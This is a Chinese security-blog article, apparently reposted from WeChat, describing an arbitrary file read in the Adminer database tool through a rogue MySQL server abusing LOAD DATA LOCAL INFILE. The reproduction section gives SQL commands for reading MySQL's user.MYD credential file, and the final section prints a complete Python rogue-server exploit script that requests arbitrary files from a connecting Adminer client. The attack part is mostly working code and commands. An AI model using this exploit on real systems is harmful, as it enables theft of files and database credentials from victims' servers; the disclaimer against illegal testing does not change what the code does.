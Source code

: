 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=Mzg4NTUwMzM1Ng==&mid=2247483846&idx=1&sn=4abf0febab1675f2db99adcface3b4e9&chksm=cfa6a5d5f8d12cc32400fff9204c88226e993f8d5b6b654346d7786ad2400107db22b599b52c&scene=178&cur\_album\_id=1558250808859803651#rd)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

  

**0x01 前言**  

Adminer是一款轻量级的Web端数据库管理工具，支持MSSQL、MSSQL、Oracle、SQLite、PostgreSQL等众多主流数据库，类似于phpMyAdmin的MySQL管理客户端，整个程序只有一个PHP文件，易于使用安装，支持连接远程数据库，https://github.com/vrana/adminer 。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeaYICV1Ced4WMA4mmKUnkHagLhsiab0VNXPSqCTW93goHQZrhlGJ7Wvuys0zR8v3P5KhPy8EjvEqQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

**0x02 漏洞原理**

Adminer任意文件读取漏洞其实来源于MySQL“LOAD DATA INFILE”安全问题，原理可参考先知社区@mntn写的“通过MySQL LOAD DATA特性来达到任意文件读取”，Adminer4.6.3版本中已经修复了LOAD DATA LOCAL INFILE问题。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

****0x03 漏洞复现****

将我们攻击机的MySQL开启外链，然后执行EXP去读取一个不存在的文件让其报错得到绝对路径，最后再去读取数据库配置等指定文件即可，这里我随便读取的一个文件用于测试。

```
`grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;``grant all privileges on *.* to 'root'@'%';    //MySQL8开启外链`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

Adminer连接攻击机MySQL数据库时的用户名、密码及数据库名可以随意输入，只要服务器IP对即可。

```
root@kali:/tmp# python mysql_client.py "D:\phpStudy\PHPTutorial\WWW\av\1.php"
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

也可以在我们攻击机的MySQL创建一个新的数据库和表，然后在Adminer填入攻击机的MySQL服务器IP、用户名、密码和刚创建的数据库名。

```
`create database adminer;                //创建adminer数据库``use adminer;                            //进入adminer数据库``create table test(text text(4096));     //创建test数据表`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

执行以下SQL语句即可读取指定文件并将读取到的文件内容写入到刚创建的数据表里，不过得注意一下目标机的secure\_file\_priv选项，当它的值为null时就会读取不了文件了。

```
load data local infile "D:\\phpStudy\\PHPTutorial\\MySQL\\data\\mysql\\user.MYD" into table test FIELDS TERMINATED BY '\n';
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`select * from test;        //查看test表内容``truncate table test;       //清空test表内容``drop database adminer;     //删除adminer数据库`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**0x04 利用程序**

```
`#coding=utf-8` `import socket``import logging``import sys``logging.basicConfig(level=logging.DEBUG)``filename=sys.argv[1]``sv=socket.socket()``sv.setsockopt(1,2,1)``sv.bind(("",3306))``sv.listen(5)``conn,address=sv.accept()``logging.info('Conn from: %r', address)``conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")``conn.recv(9999)``logging.info("auth okay")``conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")``conn.recv(9999)``logging.info("want file...")``wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename``conn.sendall(wantfile)``content=conn.recv(9999)``logging.info(content)``conn.close()`
```

  

****0x05** **参考链接****

*   https://xz.aliyun.com/t/3973
    
*   https://dev.mysql.com/doc/refman/8.0/en/load-data-local-security.html
    

* * *

  

**【推荐书籍】**

* * *

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  如果对你有所帮助，点个分享、赞、在看呗！![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)